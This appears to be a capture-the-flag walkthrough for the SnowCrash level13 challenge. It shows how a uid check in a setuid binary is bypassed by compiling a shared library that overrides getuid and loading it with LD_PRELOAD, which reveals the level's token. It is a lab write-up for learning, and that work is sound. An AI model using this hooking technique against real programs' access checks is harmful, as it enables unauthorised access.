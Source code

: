 In the home directory we have an executable file, which has the `setuid` bit enabled:

``` shell
level13@SnowCrash:~$ ls -la
total 20
dr-x------ 1 level13 level13  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level13 level13  220 Apr  3  2012 .bash_logout
-r-x------ 1 level13 level13 3518 Aug 30  2015 .bashrc
-r-x------ 1 level13 level13  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag13  level13 7303 Aug 30  2015 level13
```

This means that any user can execute the binary with the owners privileges.

If we execute the program it says that it's expecting 4242 as uid:

``` shell
level13@SnowCrash:~$ ./level13 
UID 2013 started us but we we expect 4242
```

It gets the user id with the `getuid` function, which is loaded as a shared library:

``` shell
level13@SnowCrash:~$ nm -D ./level13 
080486bc R _IO_stdin_used
         w __gmon_start__
         U __libc_start_main
         U exit
         U getuid
         U printf
         U strdup
```

Knowing this we can use the [LD_PRELOAD exploit](https://www.boiteaklou.fr/Abusing-Shared-Libraries.html), an environment variable which basically will tell the binary a library that will be pre-loaded before all the standard ones, so we can create our own library with our own `getuid` function that will return 4242:

`my_getuid.c`
``` C
#include <unistd.h>

uid_t getuid(void) {
	return 4242;
}
```

``` shell
level13@SnowCrash:/tmp$ cat /tmp/my_getuid.c
#include <unistd.h>

uid_t getuid(void) {
	return 4242;
}

level13@SnowCrash:/tmp$ gcc -shared -fPIC /tmp/my_getuid.c -o /tmp/my_getuid.o
level13@SnowCrash:/tmp$ cp ~/level13 .
level13@SnowCrash:/tmp$ LD_PRELOAD=/tmp/my_getuid.o ./level13
your token is 2A31L79asukciNyi8uppkEuSx
```

